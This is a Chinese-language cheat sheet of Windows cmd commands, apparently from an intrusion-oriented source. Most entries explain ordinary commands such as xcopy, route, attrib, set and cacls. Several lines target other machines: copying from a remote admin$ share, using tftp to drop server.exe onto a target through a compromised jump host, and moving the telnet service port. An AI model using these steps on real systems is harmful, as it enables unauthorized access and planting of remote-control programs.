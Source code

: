 ```
copy \\ip\admin$\svv.exe c:\ 或:copy\\ip\admin$\*.*  复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
xcopy 要复制的文件或目录树　目标地址\目录名  复制文件和目录树，用参数/Y将不提示覆盖相同文件
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:\server.exe 登陆后，将“IP”的server.exe下载到目标主机c:\server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
tftp -i 对方IP　put c:\server.exe  登陆后，上传本地c:\server.exe至主机
ftp ip 端口  用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
route print  显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
arp  查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
start 程序名或命令 /max 或/min  新开一个新窗口并最大化（最小化）运行某程序或命令
mem  查看cpu使用情况
attrib 文件名(目录名)  查看某文件（目录）的属性
attrib 文件名 -A -R -S -H 或 +A +R +S +H  去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性
dir  查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
set 指定环境变量名称=要指派给变量的字符  设置环境变量
set  显示当前所有的环境变量
set p(或其它字符)  显示出当前以字符p(或其它字符)开头的所有环境变量
pause  暂停批处理程序，并显示出：请按任意键继续....
if  在批处理程序中执行条件处理（更多说明见if命令及变量）
goto 标签  将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
call 路径\批处理文件名  从批处理程序中调用另一个批处理程序 （更多说明见call /?）
for  对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
echo on或off  打开或关闭echo，仅用echo不加参数则显示当前echo设置
echo 信息  在屏幕上显示出信息
echo 信息 >> pass.txt  将"信息"保存到pass.txt文件中
findstr "Hello" aa.txt  在aa.txt文件中寻找字符串hello
find 文件名  查找某文件
title 标题名字  更改CMD窗口标题名字
color 颜色值  设置cmd控制台前景和背景颜色；0＝黑、1＝蓝、2＝绿、3＝浅绿、4＝红、5＝紫、6＝黄、7=白、8=灰、9=淡蓝、A＝淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
prompt 名称  更改cmd.exe的显示的命令提示符(把C:\、D:\统一改为：EntSky\ )
print 文件名  打印文本文件
2ver  在DOS窗口下显示版本信息
winver  弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
format 盘符 /FS:类型  格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
md　目录名  创建目录
replace 源文件　要替换文件的目录  替换文件
ren 原文件名　新文件名  重命名文件名
tree  以树形结构显示出目录，用参数-f 将列出第个文件夹中文件名称
type 文件名  显示文本文件的内容
more 文件名 逐屏显示输出文件
doskey 要锁定的命令＝字符
doskey 要解锁命令= 为DOS提供的锁定命令(编辑命令行，重新调用win2k命令，并创建宏)。如：锁定dir命令：doskey dir=entsky (不能用doskey dir=dir)；解锁：doskey dir=
taskmgr 调出任务管理器
chkdsk /F D: 检查磁盘D并显示状态报告；加参数/f并修复磁盘上的错误
tlntadmn telnt服务admn,键入tlntadmn选择3，再选择8,就可以更改telnet服务默认端口23为其它任何端口
exit  退出cmd.exe程序或目前，用参数/B则是退出当前批处理脚本而不是cmd.exe
path 路径\可执行文件的文件名 为可执行文件设置一个路径。
cmd 启动一个win2K命令解释窗口。参数：/eff、/en 关闭、开启命令扩展；更我详细说明见cmd /?
regedit /s 注册表文件名  导入注册表；参数/S指安静模式导入，无任何提示；
regedit /e 注册表文件名 导出注册表
cacls 文件名　参数 显示或修改文件访问控制列表（ACL）——针对NTFS格式时。参数：/D 用户名:设定拒绝某用户访问；/P 用户名:perm 替换指定用户的访问权限；/G 用户名:perm 赋予指定用户访问权限；Perm 可以是: N 无，R 读取， W 写入， C 更改(写入)，F 完全控制；例：cacls D:\test.txt /D pub 设定d:\test.txt拒绝pub用户访问。
cacls 文件名  查看文件的访问用户权限列表
REM 文本内容  在批处理文件中添加注解
netsh  查看或更改本地网络配置情况
```
